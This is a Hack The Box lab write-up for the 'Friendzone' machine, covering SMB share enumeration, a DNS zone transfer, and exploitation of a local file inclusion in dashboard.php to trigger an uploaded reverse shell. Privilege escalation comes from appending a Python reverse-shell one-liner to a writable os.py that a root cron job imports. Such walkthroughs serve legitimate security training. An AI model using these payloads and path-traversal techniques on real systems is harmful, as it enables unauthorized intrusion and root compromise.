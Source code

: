 ```yaml
---
layout: single
title: Friendzone - Hack The Box
excerpt: "N/A"
date: 2019-06-17
classes: wide
header:
  teaser: /assets/images/htb-writeup-friendzone/friendzone_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - linux
  - easy
  - smb
  - zone transfer
  - lfi
  - pspy64
  - file permissions
---
```


![](/assets/images/htb-writeup-friendzone/friendzone_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------


# USER
## Enumeration

Enum standard + extra smb
```bash
nmap -sC -sV -O 10.10.10.123
nmap --script=smb-enum-shares 10.10.10.123 
```

Grab `cred.txt`
```bash
smbclient //10.10.10.123/general
get creds.txt
```

Zone Transfer to find subdomains
```bash
dig axfr friendzone.red @10.10.10.123
```

Add subdomains to `/etc/hosts`
```bash
10.10.10.123 friendzone.red administrator1.friendzone.red hr.friendzone.red uploads.friendzone.red
```

Login as `administrator1` with credentials found from `cred.txt`

Upload reverse shell through SMB
```bash
smbclient //10.10.10.123/Development
put r
```

Prepare `nc` to grab reverse shell
```bash
nc -lnvp 4455
```

Use LFI through dashboard.php to trigger reverse shell.<br>
With previous enumeration of smb shares we found the path to `/etc/Development` where our shell will be uploaded.

`dashboard.php?image_id=a.jpg&pagename=../../../../../etc/Development/r`

> **NOTE1:**<br>
> Probably smart to upload a test file, like `<?php phpinfo(); ?>`, before going for the reverse shell.


> **NOTE2:**<br>
> The php call will look something like this: `<?php “include/”.include($_GET['pagename'].“.php”); ?>`<br>
> Do not end your filename with `.php` as this is already done in the code and you'll create a double file ending. 

Grab user: `/home/friend/user.txt`

Grab SSH-creds:
```bash
ls /var/www/htm/mysql_data.conf
(f*****:A*************)
```

---------
<br><br>

# ROOT

```bash
ssh friend@10.10.10.123
```

Look on executing services with `pspy64`:
```bash
2019/06/18 16:24:01 CMD: UID=0    PID=4059   | /bin/sh -c /opt/server_admin/reporter.py 
2019/06/18 16:24:01 CMD: UID=0    PID=4058   | /bin/sh -c /opt/server_admin/reporter.py 
2019/06/18 16:24:01 CMD: UID=0    PID=4057   | /usr/sbin/CRON -f 
```

Investigate the script `reporter.py` and we find that it uses `import os`.


With ls -l1 we find that we have `+r+w` one the file `/usr/lib/python2.7/os.py`

Add a python reverse shell at the end of `os.py` and wait for cron to trigger it.
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Start `nc -lvnp 4488` and grab `root.txt`

